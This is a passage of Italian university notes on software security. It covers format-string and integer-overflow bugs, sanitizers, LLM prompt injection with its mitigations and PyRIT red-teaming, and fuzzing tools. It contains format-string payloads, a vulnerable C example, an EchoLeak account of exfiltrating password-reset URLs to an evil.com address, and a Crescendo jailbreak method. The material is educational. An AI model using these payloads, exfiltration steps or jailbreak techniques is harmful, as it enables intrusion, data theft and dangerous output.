Se non si fa e si fa direttamente \textit{printf(nome)}, l'attaccante, nella stringa \textit{nome}, 
può mette valori speciali come "\%x\%x\%x\%x" che gli consente di stampare lo
stack oppure "\%n" per sovrascrivere un'area di memoria arbitraria.

\subsection{Integer overflow}

Gli interi in C usano un numero fisso di bit; se si supera il limite massimo, 
il valore "wrappa" a un numero negativo o tronco.

\begin{lstlisting}
int check(unsigned short len, char * ptr) {
    if(len >= 10) return -1;
    printf("s = %d\n", len);
    return 0;
}

int main(int argc, char *argv[]) {
    char buf[10];
    int n = atoi(argv[1]);
    if( check(n, argv[2]) == -1 ) {
        printf("Oh no you don't!\n");
        return -1;
    }
    strncpy(buf, argv[2], n);
    printf("%s\n", buf);
    return 0;
}
\end{lstlisting}

Nell'esempio riportato notiamo che nella funzione \textit{check()} abbiamo 
un \textit{implicit cast} ad \textbf{unsigned short} ed, essendo 65535 il massimo 
valore per uno \textit{short int}, avremo un integer overflow nel caso in cui n sia maggiore
di quel valore.

Spesso attacchi di questo tipo vengono utilizzati per arrivare ad un buffer
overflow, ad esempio attaccando l'indice di un array per farlo eccedere la sua
dimensione massima e quindi accedere a più dati.

\section{Sanitizer}

Sono tool che hanno il ruolo di bug detector per C/C++, sono capaci cioè di darci un
avviso nel momento in cui il nostro programma ha un problema di quelli visti in
precedenza nella gestione della memoria. Il programma o viene fermato o 
comunque veniamo avvisati del tutto.

Fondamentalmente si va ad inserire delle sonde (dunque codice aggiuntivo) nel nostro
programma, definite \textbf{instrumentation}, utilizzate per capire se ci sono dei problemi
nell'utilizzo della memoria. Il programma originale viene modificato 
aggiungendo le sonde per collezionare informazioni riguardo l'esecuzione e 
per prendere decisioni sulla base di queste.

\begin{itemize}
    \item Se la code instrumentation va a prendere il codice macchina prima che venga
    eseguito sul processore e inserisce delle sonde si parla di \textbf{instrumentazione
    dinamica}, in quanto queste vengono iniettate a run-time.
    \item Se l'instrumentazione avviene al tempo di compilazione, ovvero le sonde
    vengono inserite prima della compilazione nel codice sorgente, si parla allora
    di \textbf{instrumentazione statica}.
\end{itemize}
Esempio di instrumentazione statica:

\begin{lstlisting}
int main() {
    allocations.init();
    char * p = malloc(100);
    allocations.insert(p, 100);
    int offset = 200;
    if(allocations.find(p+offset)) print_error(p+offset);
    p[offset] = 'A';
    allocations.find_leaks();
}
\end{lstlisting}

Nell'esempio ogni volta che si crea un oggetto viene aggiunta un'istruzione che si
segna l'oggetto creato e la sua dimensione. Nel momento dell'utilizzo si aggiunge
prima di questo un \textit{if} che verifica che l'offset inserito non ecceda la dimensione
massima segnata. Prima della fine del programma si fa anche una 
ricerca dei \textit{memory leak}, ovvero si controlla che tulle le variabili allocate 
siano state correttamente deallocate.

Anche la stessa \textbf{Code Coverage} viene fatta con lo stesso principio, inserendo
delle sonde e valutando alla fine delle esecuzioni quante di queste sono state
eseguite.

\subsection{Valgrind (Memcheck)}

Valgrind è un framework di analisi dinamica che non richiede la 
ricompilazione del codice sorgente Esso utilizza la traduzione \textbf{Just-In-Time} 
(JIT) per eseguire il binario all'interno di una CPU virtuale, iniettando 
istruzioni di analisi a runtime. \textbf{Shadow Memory} (\textbf{Memcheck}): mantiene una 
mappa della memoria usando "\textit{V bits}" (\textit{Valid-value}, indica se il dato è 
inizializzato) e "\textit{A bits}" (\textit{Valid-address}, indica se l'indirizzo è allocato 
legittimamente). Il bit V segue il dato ovunque, persino dentro i registri 
della CPU virtuale.

\textbf{Limiti di Valgrind}:
\begin{itemize}
    \item \textbf{Overhead estremo}: Valgrind rallenta l'esecuzione da 10x a 60x e triplica l'uso di RAM.
    \item \textbf{Blind spot sugli array di stack}: Avendo ad esempio due buffer \textit{int a[16]; int b[16];} sullo 
    stack, essi sono contigui in memoria. A livello binario (assembly), accedere 
    a \textit{a[16]} significa calcolare un offset dal registro \textit{rbp}. Valgrind vede 
    solo un accesso legittimo alla memoria dello stack e non riesce a 
    distinguere i confini tra le due variabili, fallendo nel rilevare 
    l'overflow locale.
\end{itemize}

\subsection{AddressSanitizer (ASan)}

ASan risolve molti dei limiti di Valgrind operando a compile-time come 
passaggio aggiuntivo del compilatore tramite il flag \textit{-fsanitize=address}.

Dato che ASan opera durante la compilazione, altera il layout della memoria 
del programma; aggiunge zone "cuscinetto" (\textit{redzones}) attorno a ogni variabile 
globale, buffer nell'heap o array nello stack (tipicamente di 32 byte). 
Queste aree vengono marcate come inaccessibili nella \textit{shadow memory}. A 
proposito della \textit{shadow memory} va detto che ASan mappa ogni word 
di 8 byte del programma in un signolo byte e dunque fa un uso più efficiente 
della memoria rispetto a Valgrind, inoltre l'overhead sulla CPU è mediamente 
solo 2x, rendendolo utilizzabile anche in contesti di test estesi.

In generale, il compilatore inietta un controllo primordiale prima di ogni 
istruzione di lettura o scrittura:

\begin{lstlisting}
// Codice iniettato da ASan
Shadow = (Addr >> 3) + Offset; //Shadow byte
if (*Shadow != 0) ReportAndCrash(Addr); //Crasha se lo stato e' "not addressable"
// Codice originale
*Addr = ...
\end{lstlisting}

Se un overflow cerca di toccare la \textit{redzone}, il controllo sul byte 
ombra (\textit{shadow byte}) fallisce immediatamente e il programma va in crash volontario 
riportando il bug.

ASan può riconoscere anche il problema dello \textit{use-after-free} in quanto
ad ogni variabile liberata il tool marca quei byte come "\textit{quarantined}"; quindi
se si prova successivamente ad accedere a quella zona ASan segnala che si sta
accedendo ad una zona messa in quarantena.

\textbf{Limiti di ASan}
\begin{itemize}
    \item Più leggero, ma \textbf{meno preciso} di Valgrind avendo una \textbf{granularità di 8 byte}.
    \item Nessuna distinzione tra i permessi di lettura e scrittura.
    \item ASan può controllare solo gli accessi allineati in memoria.
\end{itemize}

In conclusione possiamo dire che entrambe le suite di tool possono rilevare
la maggior parte dei bug relativi alla gestione della memoria, in particolare:

\begin{itemize}
    \item ASan offre un miglior supporto per il rilevamento dello \textit{stack/global array overrun}.
    \item Valgrind/Memcheck offre un miglior supporto per il rilevamento dell'\textit{uninitialized memory}.
\end{itemize}
\chapter{LLM Security}

\section{Nozioni di base sui LLM}

I LLM sono definiti come motori semantici, in grado di tradurre, sintetizzare 
e comparare testo. Quindi possono essere utilizzati in diversi contesti 
lavorando sul testo in linguaggio naturale.

Il prompt solitamente include le istruzioni per il task che vogliamo che 
il modello esegua e i dati su cui processare quell'operazione. Bisogna 
quindi dirgli cosa fare e su che cosa farlo. Le versioni più recenti degli 
LLM possono lavorare non solo sul testo ma su immagini, video, json e altro 
ancora.

Il \textbf{Prompt engineering} è una branca dell'ingegneria che mira a standardizzare 
la struttura di un prompt con lo scopo di migliorare quello che è il 
comportamento dell'LLM. Tipicamente si vanno a specificare:

\begin{itemize}
    \item Ruolo 
    \item Comportamento previsto 
    \item Vincoli 
    \item Output atteso 
    \item Come interpretare i dati
\end{itemize}

Le istruzioni sono fornite dagli sviluppatori del sistema tramite il \textbf{system prompt}
che definisce il comportamento di base del sistema; altre istruzioni e i dati sono forniti 
dall'utente (user prompt) e poi vengono forniti dei dati aggiuntivi esterni.

Per comprendere le vulnerabilità degli LLM, dobbiamo analizzare come elaborano 
l'input. A differenza delle architetture tradizionali (dove codice e dati sono 
rigorosamente separati), per un LLM il prompt è un semplice flusso grezzo 
di token. Il modello deve estrapolare semanticamente quali parti sono 
istruzioni di sistema e quali sono dati utente.

Un concetto cruciale è l'\textbf{Embedding}. I token (numeri) vengono mappati in uno spazio 
vettoriale dove la loro posizione geometrica riflette relazioni logiche. 
Ad esempio:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{img/capitolo5/embedding.png}
    \label{fig:embedding}
\end{figure}

Perché questo è un problema di sicurezza? Perché un LLM può "ragionare" su 
concetti linguistici alterati. Se un attaccante offusca un comando malevolo 
usando simboli, codifiche o testo frammentato, il modello può comunque 
riconoscerne la vicinanza semantica ed eseguirlo, bypassando i classici 
filtri statici (blacklist).

Un LLM è dunque un'enorme rete neurale che accetta in ingresso un insieme di 
rappresentazioni delle parole (embeddings) e seleziona la rappresentazione 
della parola da utilizzare per l'output. Per generare l'output le reti neurali 
eseguono diversi prodotti vettoriali tra i vettori di input (gli embeddings) e 
matrici numeriche fisse che contengono i "pesi". I pesi vengono selezionati 
con cura in modo che i risultati corrispondano al testo di addestramento.

\subsection{Pre-training}

In questa fase l'LLM viene addestrato con un'enorme quantità di dati presi 
da internet. In tale fase lo scopo è quello di voler far comprendere al 
modello un certo linguaggio. Viene passata al modello una stringa con delle 
parole cancellate e si chiede al modello di prevedere quali parole vadano 
in quegli spazi; in questo modo esso riesce a comprendere le regole sintattiche 
e semantiche di un linguaggio. Le maschere utilizzate sono totalmente 
randomiche, \textbf{non sono supervisionate}.

\subsection{Fine-tuning}

Tecnica di training \textbf{supervisionata}, usando un dataset fatto da 
esperti di dominio in modo che il risultato non sia un LLM generico ma uno 
specializzato in un determinato task.

Un'alternativa a questa fase è quella dei \textbf{RAG}, il quale consente 
al modello di potersi spazializzare in maniera light in un determinato 
dominio, utilizzando alcuni documenti come verità assoluta. C'è quindi una 
\textbf{Knowledge base} di partenza che viene presa e utilizzata per 
generare una risposta basata unicamente sulla base di conoscenza. In 
questo contesto avvelenando la Knowledge base si potrebbe avvelenare 
totalmente quello che è il comportamento del sistema.

\subsection{Fase di Allineamento - RLHF}

Questo modello a questo punto sarà zeppo di dati su cui non c'è un controllo 
effettivo, potrebbe contenere dati che non rispettano certe politiche 
(contenuti offensivi, razzisti, pericolosi). In questa fase si usa un 
approccio RLHF (\textit{Reinforcement Learning from Human Feedback}) 
utilizzando dei reward per fare in modo da preferire determinate risposte 
rispetto ad altre, facendo così in modo che sia "Fair".
Serve quindi per evitare che il modello abbia un comportamento diverso da 
quello desiderato dal punto di vista della correttezza.

\section{Prompt Injection}

La \textbf{Prompt Injection} consiste nell'iniettare istruzioni non 
autorizzate nel flusso di token per sovrascrivere il comportamento 
desiderato dallo sviluppatore. Possiamo distinguere tre categorie principali.

\subsection{Direct Prompt Injection}

In questo scenario l'attaccante inserisce istruzioni direttamente nel 
prompt utente. L'obiettivo dell'attaccante è quello di contraddire le 
istruzioni del system prompt in modo che l'LLM faccia quello che l'attaccante 
dice e non quello per cui era stato pensato in fase di progetto.

L'attacco di questo tipo è concettualmente molto simile ad un XSS o un SQL 
Injection in quanto essa stessa si basa su un Injection fatta da un utente 
non fidato che rende il sistema non più sicuro, modificando le istruzioni 
attraverso i dati. In questo caso a differenza dei due attacchi menzionati 
non possiamo fare una differenza netta tra dati e istruzioni in quanto 
quello che l'LLM riceve è un insieme di token. Proprio la stessa 
architettura non permette la separazione tra dati e istruzioni. Quindi non 
c'è una vera e propria soluzione.

Esistono diverse tipologie di Direct Prompt Injection:

\begin{itemize}
    \item \textbf{Instruction Override}: sovrascrivere le istruzioni di sistema e dargliene di nuove.
    \item \textbf{Role-Play}: affidare un ruolo al modello per convincerlo a fare 
    delle cose che non potrebbe fare, come ad esempio fornire un payload.
    \item \textbf{Delimiter Confusion}: utilizzare dei delimitatori per i dati 
    (stile SQL Injection) per confondere il modello tra dati e istruzioni.
    \item \textbf{Encoding}: convertire il testo in Base64, ROT13, ecc può 
    effettivamente bypassare i controlli.
    \item \textbf{Payload Splitting}: dividere in più parti la richiesta malevola 
    all'interno del prompt in modo da evitare che venga rilevata dai controlli.
    \item \textbf{Prompt Leakage}: invitare il modello a rivelare le informazioni
    riservate del system prompt.
\end{itemize}

\subsection{Indirect Prompt Injection}

L'attacco avviene quando l'agente LLM processa contenuti esterni non 
attendibili (email, documenti via RAG, risultati web) che contengono 
payload malevoli nascosti.

Esempio di \textit{EchoLeak} (CVE-2025-32711): Un utente chiede al bot di 
riassumere le email. Tuttavia l'email malevola contiene istruzioni nascoste che 
ordinano al bot di cercare altre email con oggetto "password reset", 
estrarre gli URL, codificarli in Base64 e inviarli a un server controllato 
dall'attaccante visitando: 
\begin{gather*}
        \text{http://evil.com/\$ENCODED\_URL}
\end{gather*}
Infine, l'LLM è istruito a tacere su questa operazione nel riassunto.

\subsection{Multi-turn Attacks (Crescendo)}

Questi attacchi superano i controlli RLHF diluendo l'intento malevolo su 
più interazioni conversazionali, sfruttando la memoria dell'LLM.

Esempio \textit{Molotov}: Invece di chiedere direttamente "\textit{Come costruire 
una bomba Molotov?}" (che verrebbe bloccato), l'attaccante chiede prima la 
storia della bottiglia incendiaria, poi il suo uso nella Guerra d'Inverno, 
e infine come venisse materialmente assemblata dai soldati all'epoca. 
L'LLM, percependo il contesto come storico/benigno, fornisce i componenti 
e le istruzioni esatte.

\section{Mitigazioni}

Dato che la Prompt Injection è una limitazione intrinseca degli LLM, non 
esiste una singola "\textit{patch}" risolutiva; si usa un approccio di 
\textit{defense-in-depth}. Sono infatti nate alcune tecniche di difesa che 
consentono di mitigare la situazione:

\begin{itemize}
    \item \textbf{Hardening the prompt}: consiste nel ricordare al modello 
    che non dovrebbe dare determinate informazioni, che dovrebbe comportarsi 
    in maniera etica e responsabile. Una sorta di reminder.
    \item \textbf{Data Spotlighting}: consiste nell'aiutare l'LLM a distinguere i dati 
    dalle istruzioni usando delimitatori forti nel prompt di sistema. Ad esempio:
    \begin{itemize}
        \item Racchiudere il testo utente tra marcatori <<< \{\{text\}\} >>>.
        \item Interfoliare un carattere speciale $\wedge$ tra ogni parola del testo non attendibile.
    \end{itemize}
    \item \textbf{Guardrails (Filtri Programmabili)}: le blacklist statiche 
    sono inefficaci a causa della flessibilità del linguaggio naturale e 
    delle tecniche di offuscamento. Le soluzioni moderne (come \textit{NeMo Guardrails} o \textit{LangChain4j}) 
    permettono di validare programmaticamente input e output.

    Esempio con \textit{Colang}: Colang è un linguaggio per definire flussi 
    di conversazione deterministici. Si definiscono "forme canoniche" 
    (es. "\textit{Quali fondi possiedo?}") e l'LLM mappa le query degli 
    utenti (es. "\textit{Il fondo X è un buon investimento?}") nello 
    spazio vettoriale semantico per decidere quale regola applicare in 
    modo sicuro.
    \item \textbf{LLM Isolation Patterns}: applica il principio del minimo 
    privilegio segmentando le intelligenze artificiali:
    \begin{enumerate}
        \item \textbf{Dual LLM}: un \textit{Privileged LLM} (fidato) gestisce il 
        ragionamento logico e le API sensibili. Se serve leggere un'email 
        esterna, delega il compito a un \textit{Quarantined LLM} (isolato e senza 
        accesso ai tool), che legge i dati non attendibili ed estrae solo 
        le variabili strettamente necessarie, impedendo l'esecuzione di 
        comandi malevoli nascosti nel testo.
        \item \textbf{Code-Then-Execute}: invece di far chiamare i tool 
        direttamente all'LLM in tempo reale, il modello fiduciario genera 
        uno script Python deterministico. Lo script orchestra i dati e 
        l'LLM in quarantena all'interno di una sandbox sicura, prevenendo 
        l'esfiltrazione.
    \end{enumerate}
\end{itemize}

\section{Testing Automatizzato: AI Red Teaming}

Per validare le difese, è necessario simulare costantemente gli attacchi. 
Citiamo a tal proposito \textbf{PyRIT} (Python Risk Identification Tool), 
un framework open-source per automatizzare l'AI Red Teaming.

Il suo funzionamento si basa su una pipeline complessa:

\begin{enumerate}
    \item Carica un dataset di prompt malevoli di base (es. istruzioni illegali).
    \item Usa dei \textit{Converters} per alterare il payload. Ad esempio, 
    il \textit{Base64Converter} o traduzioni semantiche tramite un altro 
    LLM avversario.
    \item Invia l'attacco generato al target (es. via API).
    \item Valuta l'efficacia tramite \textit{Scorers}. PyRIT utilizza un 
    \textit{Self-Ask LLM Scorer} (un altro LLM con funzione di giudice) 
    per determinare programmaticamente se la risposta del target ha 
    effettivamente assecondato la richiesta malevola.
\end{enumerate}
\chapter{Fuzzing}

Il fuzzing (o \textit{fuzz testing}) è una tecnica di testing del software 
completamente automatizzata. Il suo approccio si basa sull'invio massiccio e ad 
altissima frequenza (fino a migliaia di test al minuto) di input casuali, malformati 
o inattesi. A differenza del testing tradizionale, il fuzzing non inserisce dati 
"validi" per verificare le normali funzionalità, ma sottopone il sistema a uno 
stress estremo con l'obiettivo di causare crash, blocchi o comportamenti anomali, 
portando così alla luce potenziali vulnerabilità di sicurezza (come i \textit{Buffer Overflow}).

Si tratta di una tecnica estremamente versatile: può essere applicata a qualsiasi 
livello dell'architettura software e hardware che accetti dati in ingresso, partendo 
dai protocolli di comunicazione (come il Bluetooth e i protocolli di rete), passando 
per il sistema operativo, fino ad arrivare a specifiche applicazioni o browser web.

Dal punto di vista operativo, il fuzzing si comporta a tutti gli effetti come un 
approccio a forza bruta. Generando una quantità enorme di dati, richiede una 
notevole potenza di calcolo, tanto che spesso vengono impiegati interi datacenter 
dedicati. Proprio per la sua efficacia, le grandi aziende tech come Google e Microsoft 
investono pesantemente in questa attività per testare i propri applicativi: data 
l'ampia diffusione dei loro prodotti, individuare e risolvere preventivamente 
vulnerabilità critiche è di fondamentale importanza.

\section{Test Positivo vs Test Negativo}

Nella tradizionale ingegneria del software, il testing funzionale (o positivo) 
verifica che il software faccia ciò per cui è stato progettato, controllando la 
conformità ai requisiti e le performance. Si tratta dunque di un'attività principalmente
manuale. 

Il fuzzing implementa invece il test negativo: esplora lo spazio degli input "non 
definiti" per garantire che il software non manifesti comportamenti pericolosi 
(crash, stalli, command injection, information leaks) quando riceve dati imprevisti.
I bug di sicurezza spesso risiedono in "\textit{feature creative}" o nella gestione 
errata della memoria quando il software tenta di processare formati malformati. 
Inviando lunghezze non valide, messaggi fuori sequenza (\textit{out-of-state}), o causando 
overflow/underflow, si forza l'applicazione fuori dal suo normale flusso di controllo.

Nel panorama del fuzzing, l'automazione gioca un ruolo centrale su due fronti 
fondamentali del testing: la generazione degli input e la validazione dei risultati.

Da un lato, il tool di fuzzing si occupa autonomamente di generare massicce quantità 
di dati casuali o malformati. Dall'altro, il ruolo del cosiddetto "\textbf{oracolo}", 
ovvero il componente deputato a stabilire se il test sia fallito o meno, è ricoperto 
dai \textbf{sanitizer}. A differenza dei test funzionali classici, che verificano il 
rispetto di requisiti positivi, i sanitizer si fondano per loro natura su requisiti 
negativi: il loro scopo è intercettare e segnalare tutto ciò che il sistema non deve 
assolutamente fare, come violare i limiti di memoria o bloccarsi in modo anomalo.

Questa architettura permette di sfruttare framework di fuzzing già esistenti e pronti 
all'uso. Avviando uno di questi tool, sarà il sistema stesso, supportato dai sanitizer 
integrati, a notificarci automaticamente l'eventuale innesco di vulnerabilità 
specifiche, come un Buffer Overflow, a seguito dei test eseguiti.

Il grande vantaggio concettuale e operativo del fuzzing risiede proprio in questo: 
semplifica drasticamente l'attività di testing poiché delega completamente al tool sia 
la complessa generazione dei dati di ingresso (\textbf{input}), sia la definizione e il 
controllo delle condizioni di anomalia (\textbf{output atteso}).

\section{Tipi di Fuzzer}

\begin{itemize}
    \item \textbf{Puramente random}: funziona bene solamente se il software è 
    particolarmente vulnerabile, altrimenti risulta poco efficace specialmente nel 
    caso di software robusti.
    \item \textbf{Generation-based}: non è casuale, è basato su un modello dell'applicativo 
     da testare. I messaggi da creare sono più realistici poichè generati da un 
     algoritmo specifico.
    \item \textbf{Mutation-based}: partendo da un input valido si va a "sporcare" un 
    pezzetto di quell'input valido creando così un "mutante".
\end{itemize}

A prescindere dalla specifica architettura del Fuzzer impiegato, il ciclo di vita 
dell'input generato attraversa una serie di filtri sequenziali. Affinché un test sia 
realmente efficace e vada a stimolare le vulnerabilità interne del software, l'input 
deve superare i controlli superficiali e raggiungere la logica profonda dell'applicativo, 
il che avviene tipicamente al terzo step di validazione.

Il primo ostacolo è il controllo della \textbf{sintassi}. Se il Fuzzer genera dati 
completamente malformati o "spazzatura", questi falliranno per sintassi invalida. Il 
parser del sistema rileverà immediatamente l'errore di formattazione e scarterà l'input, 
impedendogli di procedere oltre.

Il secondo livello riguarda il controllo della \textbf{semantica}. In questo caso, 
l'input generato ha superato i controlli sintattici, ma risulta logicamente o 
contestualmente errato. Si parla di semantica invalida quando, ad esempio, l'input è 
ben formattato ma omette un parametro richiesto obbligatoriamente dalle regole di 
business del software (come fornire il campo \textit{USER} ma tralasciare il campo 
\textit{PASS} in una procedura di autenticazione). Anche in questo scenario, il test 
si arresta prematuramente.

L'ultimo step si raggiunge solo quando l'input presenta \textbf{sia sintassi che semantica 
valide}. In questa fase cruciale, il dato malevolo o inatteso viene finalmente dato in 
pasto al "core" del software. Generare input in grado di raggiungere questo livello è 
il vero e proprio obiettivo di un'attività di Fuzzing avanzata: è solo superando le 
barriere di validazione iniziale che si ottiene un test ad alto valore aggiunto, 
capace di mandare in crash l'applicativo e scovare vulnerabilità profonde e critiche.

\subsection{Generation-based Fuzzers (Fuzzing Generazionale)}

Questi fuzzer si basano su un modello formale del protocollo da testare (es. Automi a Stati Finiti - FSM). 
Navigano nel modello generando prima pacchetti validi per superare i controlli 
iniziali (es. l'autenticazione), per poi iniettare corruzioni negli strati più profondi.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{img/capitolo6/generation.png}
    \label{fig:generation}
\end{figure}

\begin{itemize}
    \item \textbf{Vantaggi}: Raggiungono stati di protocollo più profondi in meno tempo.
    \item \textbf{Svantaggi}: Richiedono un esperto per modellare le specifiche (RFC) e scrivere il fuzzer.
    Inoltre spesso i prodotti che vogliamo testare non rispettano mai al 100\% 
    gli standard dei vari protocolli, quindi non è detto che pur avendo un modello 
    fatto bene questo sia efficace su tutti i prodotti da testare.
\end{itemize}

Esempio pratico (\textbf{Metasploit}): Metasploit non è un fuzzer, è un tool avente un 
grosso DB di exploit; tuttavia al suo interno ha anche dei piccoli fuzzer. Si tratta di
fuzzer generation-based quindi studiati in base al protocollo da testare; se il 
protocollo che ci interessa non è presente significa che Metasploit non lo copre.
Nel seguente esempio è stato usato il fuzzer per il protocollo FTP (\textit{ftp\_pre\_post})
ed è stato lanciato contro un server target. Il fuzzer viene configurato con uno step 
incrementale di 100 byte (\textit{STEPSIZE 100}) e si osserva l'invio di pattern ciclici
sempre più grandi: 10, 110, 210... fino a 2110 byte.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo6/metasploit.png}
    \label{fig:metasploit}
\end{figure}

A 2110 byte, l'output segnala "Exception 1 of 2" e il processo "PCManFTPD2.exe" sul 
target va in errore e si chiude.
La stringa generata da Metasploit è un pattern de Bruijn (visibile nel debugger log: 
Aa8Aa9Ab0Ab1...). Quando il server tenta di copiare questa enorme stringa in un buffer 
locale allocato nello stack (magari destinato a soli 512 byte), i dati in eccesso 
sovrascrivono i metadati di controllo dello stack. Il crash avviene perché la CPU 
tenta di eseguire codice all'indirizzo sovrascritto.

Esempio pratico (\textbf{Sulley}): Si tratta di un tool di fuzzing scritto in Python. 
Scopo nostro in questo caso è testare ancora il protocollo FTP; si configura l'IP, il 
numero di porto e altre impostazioni di configurazione. Ma come creiamo la macchina a 
stati finiti che descriva il modello del protocollo di interesse? Prima di tutto inizializziamo i 
campi "user" e "pass":

\begin{lstlisting}
s_initialize("user")
s_string("USER", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("anonymous", fuzzable=False)
s_static("\r\n")
s_initialize("pass")
s_string("PASS", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("james", fuzzable=False)
s_static("\r\n")
\end{lstlisting}

Da notare che i parametri \textit{fuzzable} qui sono \textbf{False}: questo garantisce 
che l'autenticazione vada sempre a buon fine. Il fuzzing vero e proprio avverrà su 
comandi successivi, come \textbf{LS} o \textbf{RECV}, dove i fuzzer inietteranno 
stringhe anomale per corrompere la memoria o tentare un Path Traversal.

\begin{lstlisting}
s_initialize("list")
s_string("LS")
s_delim(" ")
s_string("AAAA")
s_static("\r\n")
s_initialize("recv")
s_string("RECV")
s_delim(" ")
s_string("AAAA")
s_delim(" ")
s_string("BBBB")
s_static("\r\n")
\end{lstlisting}

Ultimo step è creare la macchina a stati finiti andando a collegare i vari messaggi 
tra di loro:

\begin{lstlisting}
session.connect(s_get("user"))
session.connect(s_get("user"), s_get("pass"))
session.connect(s_get("pass"), s_get("list"))
session.connect(s_get("pass"), s_get("recv"))
session.fuzz()
\end{lstlisting}

\subsection{Mutation-based Fuzzers (Fuzzing Mutazionale)}

Questi fuzzer partono da un input iniziale valido, chiamato \textbf{seed} (ad esempio 
un file pcap di traffico di rete o un'immagine), e lo mutano inserendo anomalie.

\begin{itemize}
    \item \textbf{Vantaggi}: Richiedono pochissimo sforzo e non necessitano di competenze specifiche sul protocollo.
    \item \textbf{Svantaggi}: La copertura del codice è limitata dal seed iniziale; 
    sono incapaci di raggiungere bug "profondi" perché le mutazioni casuali spesso 
    distruggono la sintassi di base, facendo sì che il target scarti il pacchetto 
    subito.
\end{itemize}

Esempio pratico (\textbf{Mutiny Fuzzer}): Mutiny prende un traffico di rete legittimo 
(es. una sessione FTP registrata in un file PCAP con comandi validi come USER 
\textit{anonymous} e PASS \textit{aaaa}) e lo usa come seed. Utilizza uno script 
(\textit{mutiny\_prep.py}) per generare un file .fuzzer di configurazione e poi avvia 
l'attacco riproducendo il traffico alterato verso l'IP bersaglio.

\section{Fuzzing basato su Algoritmi Genetici}

I fuzzer tradizionali spesso falliscono con protocolli di rete o formati di file 
complessi perché generano input casuali che vengono immediatamente scartati dai 
controlli di validità iniziali del programma. Gli algoritmi genetici risolvono 
questo problema applicando mutazioni evolutive a input validi noti. Il fuzzer 
modella i dati seguendo una gerarchia:

\begin{itemize}
    \item \textbf{Token}: Una singola unità di dato (es. una stringa o un numero).
    \item \textbf{Session} (o \textbf{Leg}): Un'intera transazione o sequenza di comandi 
    inviati al target.
    \item \textbf{Pool}: Un gruppo di sessioni.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo6/input.png}
    \label{fig:input}
\end{figure}

A ogni "generazione", gli input vengono mescolati e alterati per massimizzare una 
funzione di \textit{fitness} (es. la quantità di stati del protocollo o codice 
esplorato).

\begin{itemize}
    \item \textbf{Crossover}: Due sessioni ad alta fitness vengono combinate 
    tagliandole in un punto casuale e scambiando i segmenti. Ad esempio, date due 
    sessioni $A=A_1 + A_2$ e $B=B_1 + B_2$, il crossover genera i figli $A'=A_1 + B_2$
    e $B'=A_2 + B_1$.
    \item \textbf{Mutazione}: Singoli token all'interno di una sessione vengono 
    alterati casualmente (es. inserendo stringhe di formato vulnerabili come \%n\%n). 
    Lo stesso principio si applica ai pool, aggiungendo o rimuovendo intere sessioni.
\end{itemize}

L'idea alla base è che, valutando e selezionando continuamente gli input "migliori" 
generati durante il processo, la fitness globale dei test continui ad aumentare. 
Tuttavia, questo processo non è in grado di fare miracoli da solo: l'efficienza 
dell'intero ciclo dipende in modo critico dalla qualità dei seed iniziali, ovvero i 
dati di partenza forniti al fuzzer. 

Durante questa esecuzione massiva, ogni volta 
che un input causa il crash dell'applicativo, il fuzzer salva automaticamente 
quell'istanza. Questa archiviazione è fondamentale perché permette di replicare e 
analizzare il crash in un secondo momento, identificando l'esatta vulnerabilità che 
